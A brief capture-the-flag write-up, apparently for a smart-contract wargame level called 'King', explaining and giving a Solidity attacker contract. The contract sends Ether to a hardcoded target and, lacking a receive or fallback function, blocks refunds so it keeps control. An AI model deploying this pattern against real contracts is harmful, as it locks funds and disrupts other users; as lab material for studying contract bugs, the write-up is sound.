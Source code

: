 # Level 9 - King

- Transfer eth from a deployed smart contract. When receive or fallback are not implemented in the contract, it won’t accept any eth. Similar to King of the Ether incident.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttacker {
    address target = 0xaAcEE1c1ABf4D38b1a3b8dDfA54d7851FE0Fd1f4;

    function attack() public payable {
        (bool success, ) = payable(target).call{value: address(this).balance}("");
        require(success);
    }
}
```